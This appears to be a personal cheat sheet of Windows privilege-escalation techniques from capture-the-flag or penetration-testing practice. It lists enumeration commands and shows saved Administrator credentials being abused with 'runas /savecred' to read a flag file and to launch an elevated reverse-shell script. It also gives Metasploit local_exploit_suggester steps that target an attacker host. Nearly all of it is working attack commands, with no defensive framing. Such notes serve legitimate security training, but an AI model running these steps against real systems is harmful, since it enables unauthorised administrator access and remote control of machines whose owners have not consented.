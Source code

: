 ## Intro
Whenewer possible, use winpeas

https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

## Basic info
```
systeminfo

ipconfig

# display running services
net start

# display stored user names and passwords or credentials.
cmdkey /list
```

## Usefull CMD commands
```
# get own groups
whoami /priv

# Read file
type <filename>

# Find file restrictions (similar to ls -al)
icacls <filename>

# Change text file contents
echo <new content> > <filename>
```

### saved creds
A useful command to run when beginning enumeration is "cmdkey /list", which displays stored
user names and passwords or credentials. This reveals a stored credential for
"ACCESS\Administrator".
```
PS C:\Users> cmdkey /list
Currently stored credentials:
    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator
```
Let's abuse it to run our own command as admin
```
# Read flag
PS C:\Users> runas /user:ACCESS\Administrator /savecred "cmd /c type C:\Users\Administrator\Desktop\root.txt > C:\temp\root.txt"

# Launch estalated revshell
runas /user:ACCESS\Administrator /savecred "powershell -ExecutionPolicy Bypass -File C:\Users\security\Desktop\revshell.ps1"
runas /user:ACCESS\Administrator /savecred c:\users\security\revshell.bat
```

## Metasploit
Assuming you have an existing meterpreter access to the target
```
# background current session
background

# find available exploits
use post/multi/recon/local_exploit_suggester
set session X
run

# choose one of the suggested exploits and run it
use windows/local/XXXXX
set session X
set LHOST <KALI IP>
run

# IF it doesn't work
# 1. Verify LHOST, LPORT and Session
# 2. Choose different suggested exploit.
# PROFIT $$$
```

## Additional materials
https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation
